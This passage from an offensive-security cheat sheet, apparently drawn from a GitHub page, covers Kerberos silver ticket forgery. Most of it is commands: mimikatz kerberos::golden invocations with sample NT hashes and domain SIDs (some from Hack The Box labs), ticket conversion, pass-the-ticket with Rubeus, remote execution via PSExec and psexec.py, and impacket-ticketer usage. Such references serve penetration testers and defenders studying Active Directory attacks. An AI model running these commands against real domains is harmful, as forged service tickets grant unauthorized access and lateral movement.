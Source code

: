 * Hard to detect because they are legit TGT tickets
* Mimikatz generate a golden ticket with a life-span of 10 years

## Silver Tickets

Forging a Service Ticket (ST) require machine account password (key) or NT hash of the service account.

### Windows
```powershell
# Get the domain SID
Import-Module .\PowerView.ps1
Get-DomainSID

# Create a ticket for the service
mimikatz $ kerberos::golden /user:<USERNAME> /domain:<DOMAIN.FQDN> /sid:<DOMAIN-SID> /target:<TARGET-HOST.DOMAIN.FQDN> /rc4:<TARGET-MACHINE-NT-HASH> /service:<SERVICE>

# HTB Example 
mimikatz.exe "kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-2974783224-3764228556-2640795941 /rc4:ff955e93a130f5bb1a6565f32b7dc127 /target:sql01.inlanefreight.local /service:cifs /ticket:sql01.kirbi"

# Examples
mimikatz $ /kerberos::golden /domain:adsec.local /user:ANY /sid:S-1-5-21-1423455951-1752654185-1824483205 /rc4:ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /target:DESKTOP-01.adsec.local /service:cifs /ptt
mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park

# Then use the same steps as a Golden ticket
mimikatz $ misc::convert ccache ticket.kirbi

root@kali:/tmp$ export KRB5CCNAME=/home/user/ticket.ccache
root@kali:/tmp$ ./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100 
```
* Creating a sacrificial process
```cmd
# New process will **NOT** contain your new ticket
Rubeus.exe createnetonly /program:<program> /show

# Loading ptt in newly created sacrificial process (Assuming new process is cmd.exe)
Rubeus.exe ptt /ticket:<ticket.kirbi>

# Executing PSExec with newly imported ticket
PSExec.exe -accepteula \\<target-machine-fqdn> <command>
```
### Linux
```bash
# Get the Domain SID
impacket-lookupsid <domain>/<user>@<dc FQDN> -domain-sids
```
* Using Ticketer
```bash
impacket-ticketer -nthash <nthash> -domain-sid <domain sid> -domain <domain> -spn <spn> <user to impersonate>

#HTB Example
impacket-ticketer -nthash ff955e93a130f5bb1a6565f32b7dc127 -domain-sid S-1-5-21-2974783224-3764228556-2640795941 -domain inlanefreight.local -spn cifs/sql01.inlanefreight.local Administrator
```
* Import the ticket
```bash
export KRB5CCNAME=<ticket.ccache>

```